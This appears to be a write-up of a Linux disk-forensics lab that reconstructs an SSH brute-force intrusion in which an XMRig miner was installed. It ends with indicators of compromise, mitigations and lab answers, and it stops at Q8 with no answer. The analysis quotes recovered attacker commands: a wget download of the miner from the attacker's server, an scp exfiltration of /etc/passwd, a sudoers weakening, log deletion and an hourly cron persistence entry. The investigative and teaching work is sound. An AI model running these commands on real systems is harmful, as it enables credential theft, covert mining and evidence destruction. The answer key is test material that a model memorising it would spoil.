# XMRig Miner on a Linux Server – Disk Image Forensics

# Scenario & Objective

During routine security audits, the SOC team found unusual changes and unknown files on Linux servers. A disk image from one affected server was provided for forensic analysis. The objective is to confirm the compromise, reconstruct the attacker’s actions, identify the malicious miner, measure the impact, and recommend practical mitigation steps.

- **Category**: Disk Forensics (Linux)
- **Tools**: `losetup`, `fdisk`, `mount`, `md5sum`, PhotoRec, VirusTotal

## Overview

The server was compromised through SSH brute force from the internal host `192.168.19.147`. The attacker created the sudo user `noah`, weakened sudo with `Defaults !tty_tickets`, collected `passwd`, `shadow`, `sudoers` and `ssh_config` and sent them to `3[.]28[.]195[.]43`. An XMRig miner (original name `xmr_linux_amd64`) was downloaded from `/Tools/backup/backup.elf`, stored as `/tmp/backup.elf` (MD5 `d25208063842ebf39e092d55e033f9e2`) and persisted with an hourly root cron job. The attacker deleted `~/.bash_history` and `/var/log/auth.log`; PhotoRec recovered the commands that let me rebuild the timeline.

# Analysis

## Investigation approach

- Attach the disk image to an unused loop device and identify the Linux partition.

- Mount the filesystem and inspect user history, cron configuration, and suspicious files.

- Calculate the miner’s MD5 hash and use threat intelligence to identify its original name.

- Recover deleted artifacts with PhotoRec because the attacker removed shell history and auth.log.

- Search recovered data for download, exfiltration, sudo, and SSH authentication evidence.

- Correlate commands and timestamps to build a short incident timeline.

## Preparing the disk image

A raw disk image can contain a partition table, so it should not be mounted as if it were a single filesystem. First, assign it to a loop device with partition scanning enabled.

```
sudo losetup --find --partscan disk_image.img
```

```
sudo losetup -a
```

<p align="center">
   <br />
  <em>Image 1: The image is attached to /dev/loop11.</em>
</p>

Next, list the partitions. The output shows a small BIOS boot partition and an 8 GB Linux filesystem at /dev/loop11p2.

```
sudo fdisk -l /dev/loop11
```

<p align="center">
   <br />
  <em>Image 2: Partition 2 contains the Linux filesystem.</em>
</p>

```
sudo mkdir -p /mnt/ubuntu
```

```
sudo mount /dev/loop11p2 /mnt/ubuntu
```

<p align="center">
   <br />
  <em>Image 3: The mounted root filesystem is accessible under /mnt/ubuntu.</em>
</p>

## Step 1 – Privilege escalation of the new account

### Analysis

1.  Open /mnt/ubuntu/home/ubuntu/.bash_history from the mounted image.

2.  The first command creates the account noah.

3.  The next command adds noah to the sudo supplementary group. Membership of this group allows the user to run administrative commands through sudo.

```
sudo usermod -aG sudo noah
```

<p align="center">
   <br />
  <em>Image 4: Bash history shows account creation, sudo-group membership, and evidence deletion.</em>
</p>

### Why this matters

This action turns a normal local account into an administrative account. It gives the attacker a reliable privileged identity and supports persistence.

## Step 2 – Evidence deletion (auth.log)

### Analysis

1.  Read the commands in .bash_history in their original order.

4.  The first cleanup command deletes ~/.bash_history.

5.  The second cleanup command deletes /var/log/auth.log, which normally records SSH and sudo authentication events.

```
sudo rm -f /var/log/auth.log
```

<p align="center">
   <br />
  <em>Image 5: The second cleanup command removes /var/log/auth.log.</em>
</p>

### Why this matters

Deleting auth.log makes it harder to identify successful logins, failed passwords, source IP addresses, and privilege use. Recovery of this log is therefore important for the timeline.

## Step 3 – Cron persistence

### Analysis

1.  Inspect the root user’s crontab under /var/spool/cron/crontabs.

6.  The added entry runs /tmp/backup.elf at minute 0 of every hour.

7.  Standard output and standard error are both redirected to /dev/null, so the job runs silently.

```
0 * * * * /tmp/backup.elf >/dev/null 2>&1
```

<p align="center">
   <br />
  <em>Image 6: The malicious hourly cron entry appears at the bottom of the root crontab.</em>
</p>

### Why this matters

The cron entry provides persistence. Even if the miner stops or the system restarts, cron can execute it again every hour without visible output.

## Step 4 – Hash of the dropped miner

### Analysis

1.  The cron entry identifies /tmp/backup.elf as the suspicious executable.

8.  Calculate its MD5 value with md5sum.

9.  The full value shown by the tool is d25208063842ebf39e092d55e033f9e2. The lab asks for the full hash.

```
md5sum /mnt/ubuntu/tmp/backup.elf
```

<p align="center">
   <br />
  <em>Image 7: MD5 calculation for /mnt/ubuntu/tmp/backup.elf.</em>
</p>

### Why this matters

A cryptographic hash is a compact identifier for a file. It can be used to search threat-intelligence services and to check other systems for the same sample.

## Step 5 – Miner identification via threat intel

### Analysis

1.  Search the full MD5 hash in VirusTotal.

10. The sample has many security-vendor detections and is classified as a Linux coin miner.

11. Open the names section. It lists xmr_linux_amd64 (3), which links the renamed backup.elf file to an XMRig Linux build.

<p align="center">
   <br />
  <em>Image 8: VirusTotal classifies the sample as malicious and identifies mining-related detections.</em>
</p>

<p align="center">
   <br />
  <em>Image 9: VirusTotal’s names section shows xmr_linux_amd64 (3).</em>
</p>

### Why this matters

The attacker renamed the miner to backup.elf to make it look less suspicious. The original name and vendor detections reveal its real purpose.

## Step 6 – Miner download location

### Analysis

1.  The useful shell history was deleted, so recover deleted files from the image with PhotoRec.

12. Limit recovery to useful file families where possible, then search the recovered output for backup.elf or wget.

13. The successful wget command uses the remote path /Tools/backup/backup.elf and saves the file locally as /tmp/backup.elf.

```
wget http://3[.]28[.]195[.]43/Tools/backup/backup.elf -O /tmp/backup.elf
```

<p align="center">
   <br />
  <em>Image 10: PhotoRec detects the disk structure before file carving.</em>
</p>

<p align="center">
   <br />
  <em>Image 11: PhotoRec recovery settings used for the image.</em>
</p>

<p align="center">
   <br />
  <em>Image 12: Relevant file families selected for recovery.</em>
</p>

<p align="center">
   <br />
  <em>Image 13: Recovered command history contains the successful wget request.</em>
</p>

### Why this matters

The path identifies the attacker-controlled download location. Together with the remote IP and file hash, it is a useful indicator for threat hunting and network blocking.

## Step 7 – Destination of the exfiltrated passwd file

### Analysis

1.  Review the recovered command sequence around the wget activity.

14. The attacker copies /etc/passwd to /tmp/passwd.txt on the victim.

15. An scp command then sends that file to ubuntu@3[.]28[.]195[.]43:/home/ubuntu/passwd.txt.

```
scp /tmp/passwd.txt ubuntu@3[.]28[.]195[.]43:/home/ubuntu/passwd.txt
```

<p align="center">
   <br />
  <em>Image 14: Recovered scp commands show the remote destinations of the collected files.</em>
</p>

### Why this matters

The same sequence also copies sudoers, shadow, and ssh_config. The shadow file is especially sensitive because it contains password hashes that may support offline password cracking.

## Step 8 – Sudo weakening

### Analysis

1.  Inspect the start of the recovered command sequence.

16. The command appends Defaults !tty_tickets to /etc/sudoers.

17. Disabling tty_tickets allows a cached sudo authentication timestamp to be reused across terminal sessions instead of being limited to one terminal.

```
echo 'Defaults !tty_tickets' >> /etc/sudoers
```

<p align="center">
   <br />
  <em>Image 15: The sudoers modification appears before the collection and exfiltration commands.</em>
</p>

### Why this matters

This weakens sudo’s authentication boundary. It does not create sudo permission by itself, but it makes existing elevated access easier to reuse without repeated prompts.

## Step 9 – Lateral-movement source host

### Analysis

1.  Because /var/log/auth.log was deleted, search PhotoRec output for recovered copies or fragments of auth.log.

18. Search for the phrase Failed password for, which is common in SSH authentication failures.

19. The recovered entries show repeated attempts from 192.168.19.147, followed by successful logins from the same address.

```
grep -r "Failed password for" recup_dir.*
```

<p align="center">
   <br />
  <em>Image 16: Search results identify recovered auth.log artifacts.</em>
</p>

<p align="center">
   <br />
  <em>Image 17: Repeated SSH failures originate from 192.168.19.147.</em>
</p>

### Why this matters

This is a private network address, so it points to another internal machine. That host should be isolated and investigated as a likely pivot point or another compromised endpoint.

## Step 10 – First brute-forced username

### Analysis

1.  Read the recovered failed-password entries in chronological order.

20. The earliest displayed attempts target root from 192.168.19.147.

21. Later entries target ubuntu, showing that the attacker tried two account names.

<p align="center">
   <br />
  <em>Image 18: The first brute-force entries target root before ubuntu.</em>
</p>

### Why this matters

Targeting root first is common because a successful login would immediately provide full control. When direct root access failed, the attacker changed to a normal user account.

## Step 11 – Final login session

### Analysis

1.  Search a recovered authentication-log fragment for Accepted password.

22. Separate sessions from 192.168.19.147, the identified attacker pivot, from the later login from 192.168.19.158.

23. The final accepted SSH login from 192.168.19.147 occurs at Oct 28 15:25:21.

| strings recup_dir.76/f14161992.xz \| grep -B 2 'Accepted password' |

<p align="center">
   <br />
  <em>Image 19: The last accepted login from 192.168.19.147 is recorded at Oct 28 15:25:21.</em>
</p>

### Why this matters

This timestamp anchors the final known attacker session. The syslog fragment does not display a year, so the answer should preserve the timestamp exactly as shown in the evidence.

## Step 12 – Bash command that saved activity to disk

### Analysis

1.  Bash normally keeps the current session’s command history in memory.

24. When an interactive shell exits normally, Bash writes that session’s history to ~/.bash_history.

25. The recovered command sequence contains exit. This caused the activity to be written to disk, where deleted-file recovery could later find it.

```
exit
```

<p align="center">
   <br />
  <em>Image 20: The recovered sequence includes exit after the malicious actions.</em>
</p>

### Why this matters

The attacker deleted history but did not securely wipe the disk blocks. Normal shell exit created a recoverable disk artifact, showing why deleted data can remain valuable in forensic analysis.

## Reconstructed incident timeline

| **Initial access**            | SSH brute-force activity begins from 192.168.19.147, first against root and later against ubuntu. |
|-------------------------------|---------------------------------------------------------------------------------------------------|
| **Account persistence**       | The attacker creates noah and adds it to the sudo group.                                          |
| **Privilege weakening**       | The attacker appends Defaults !tty_tickets to /etc/sudoers.                                       |
| **Collection**                | Copies of sudoers, passwd, shadow, and ssh_config are created under /tmp.                         |
| **Exfiltration**              | The collected files are transferred to 3[.]28[.]195[.]43 under /home/ubuntu/.                           |
| **Payload delivery**          | backup.elf is downloaded from /Tools/backup/backup.elf to /tmp/backup.elf.                        |
| **Execution and persistence** | The file is made executable and an hourly root cron job is added.                                 |
| **Defense evasion**           | The attacker removes .bash_history and /var/log/auth.log.                                         |

## Key indicators of compromise

| **Malicious file**          | /tmp/backup.elf                                 |
|-----------------------------|-------------------------------------------------|
| **MD5**                     | d25208063842ebf39e092d55e033f9e2                |
| **Original name**           | xmr_linux_amd64 (3)                             |
| **Attacker server**         | 3[.]28[.]195[.]43                                     |
| **Remote payload path**     | /Tools/backup/backup.elf                        |
| **Internal source / pivot** | 192.168.19.147                                  |
| **Created account**         | noah                                            |
| **Persistence**             | 0 \* \* \* \* /tmp/backup.elf \>/dev/null 2\>&1 |
| **Modified file**           | /etc/sudoers                                    |
| **Deleted evidence**        | ~/.bash_history and /var/log/auth.log           |

## Impact assessment

- Confidentiality: passwd, shadow, sudoers, and SSH configuration data were copied and transferred outside the server.

- Integrity: a privileged user, sudoers configuration, root crontab, and /tmp executable were added or changed.

- Availability and cost: the miner can consume CPU resources, reduce service performance, and create unexpected infrastructure costs.

- Scope: the source 192.168.19.147 suggests lateral movement from another internal machine, so the incident may involve more than one host.

- Evidence loss: deletion of shell history and auth.log reduced local visibility, although recoverable disk artifacts remained.

## Recommended response and mitigation

#### Containment

Isolate the affected server and 192.168.19.147. Block 3[.]28[.]195[.]43 at network controls while checking for legitimate business use.

#### Account security

Disable noah, reset credentials for ubuntu and other exposed accounts, rotate SSH keys, and review every sudo-capable user.

#### Eradication

Remove /tmp/backup.elf, delete the malicious cron entry, restore a trusted sudoers configuration, and search for copies of the same MD5.

#### Credential exposure

Treat password hashes in /etc/shadow as compromised. Reset passwords and identify reused credentials in other systems.

#### SSH hardening

Disable direct root login and password authentication where possible, require key-based access and MFA, and add rate limiting such as fail2ban.

#### Monitoring

Forward auth, audit, and cron logs to a remote system so a local attacker cannot erase the only copy. Alert on changes to /etc/sudoers, crontabs, and executable files in /tmp.

#### Recovery

Because the attacker obtained root-level access, rebuild the server from a trusted image when possible instead of relying only on file removal.

## Conclusion

The evidence confirms a full Linux compromise. The attacker used SSH access from an internal pivot, created a privileged account, weakened sudo behavior, collected and exfiltrated sensitive system files, and installed an XMRig miner as /tmp/backup.elf. An hourly root cron job maintained persistence, while deletion of Bash history and auth.log attempted to hide the activity. PhotoRec recovery and string searches rebuilt the missing command and authentication evidence. The safest response is to investigate the wider environment, rotate exposed credentials, and rebuild the affected server from a trusted source.

## MITRE ATT&CK mapping (analyst mapping)

| Tactic | Technique | Evidence |
|---|---|---|
| Credential Access / Initial Access | T1110 – Brute Force; T1021.004 – Remote Services: SSH | SSH attempts against `root` then `ubuntu` from `192.168.19.147` |
| Persistence | T1136.001 – Create Account: Local Account | `useradd`/`usermod -aG sudo noah` |
| Privilege Escalation | T1548.003 – Abuse Elevation Control: Sudo and Sudo Caching | `Defaults !tty_tickets` appended to `/etc/sudoers` |
| Credential Access | T1003.008 – /etc/passwd and /etc/shadow | Copies of `passwd` and `shadow` staged in `/tmp` |
| Exfiltration | T1048 – Exfiltration Over Alternative Protocol | `scp` of the staged files to `3[.]28[.]195[.]43` |
| Command and Control | T1105 – Ingress Tool Transfer | `wget` of `/Tools/backup/backup.elf` |
| Persistence | T1053.003 – Scheduled Task/Job: Cron | Root crontab entry for `/tmp/backup.elf` |
| Impact | T1496 – Resource Hijacking | XMRig cryptominer |
| Defense Evasion | T1070.002 / T1070.003 – Clear Linux Logs / Clear Command History | `rm` of `auth.log` and `.bash_history` |

# Answer the Questions

**Q1: Assigning high-level privileges to a new user is essential in the attack chain, as it enables the attacker to execute commands with administrative access, ensuring persistent control over the system. What command did the attacker use to grant elevated privileges to the newly created user?**

`sudo usermod -aG sudo noah`

**Q2: Understanding the commands used by the attacker to cover their traces is essential for identifying attempts to hide malicious activity on the system. What is the second command the attacker used to erase evidence from the system?**

`sudo rm -f /var/log/auth.log`

**Q3: Identifying the configuration added or modified by the attacker for persistence is essential for detecting and removing recurring malicious activities on the system. What configuration line did the attacker add to one of the key Linux system files for scheduled tasks to ensure the miner would run continuously?**

`0 * * * * /tmp/backup.elf >/dev/null 2>&1`

**Q4: Identifying the hash of the malicious file is crucial for confirming its uniqueness and tracking its presence across systems. What is the MD5 hash of the file dropped by the attacker with mining capabilities?**

`d25208063842ebf39e092d55e033f9e2`

**Q5: Knowing the original name of a malicious file helps link it to known malware families and provides valuable insights into its behavior. According to threat intelligence reports, what is the original name of the miner?**

`xmr_linux_amd64 (3)`

**Q6: Understanding the attacker's actions is crucial for tracing how malicious files were introduced to the system. The attacker successfully executed a command to download and save the miner on the compromised Linux system. What was the exact file path on the attacker's server where the malicious miner was hosted?**

`Tools/backup/backup.elf`

**Q7: To understand which sensitive information was accessed and transferred from the compromised system, it’s essential to identify the files exfiltrated by the attacker. What is the full path on the attacker’s remote machine where the exfiltrated passwd file was saved?**

`/home/ubuntu/passwd.txt`

**Q8: Understanding how the attacker maintained elevated privileges without repeated permission prompts is essential for uncovering their methods of persistent access. What command did the attacker use to configure continuous privilege escalation without requiring repeated permission?**

